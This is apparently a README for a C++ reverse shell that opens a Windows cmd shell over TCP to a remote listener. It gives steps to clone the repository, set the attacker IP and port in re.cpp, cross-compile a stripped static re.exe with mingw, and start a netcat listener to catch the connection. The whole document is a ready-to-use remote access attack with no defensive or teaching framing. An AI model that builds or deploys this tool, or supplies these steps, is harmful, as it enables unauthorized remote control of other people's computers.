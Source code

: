 # C ++ Reverse Shell

This is a simple C++ based reverse shell give us a windows  cmd shell over TCP .  


## installation

    $ apt install mingw-w64
    $ git clone https://github.com/dev-frog/C-Reverse-Shell.git
    $ cd C-Reverse-Shell
  


##  change The IP and Port number in the source code

There is **re.cpp** file you have to open and change the **ip address** and **port number**

![alt text](https://github.com/Hokori-ykm/rc/blob/master/img/re.PNG)

    70 else {
    71    char host[] = "192.168.0.101";  // change this to your ip address
    72    int port = 4444;                //chnage this to your open port
    73    RunShell(host, port);
    74}
    


## Compile it

    i686-w64-mingw32-g++ re.cpp -o re.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
 

     nc -lvnp <port number>

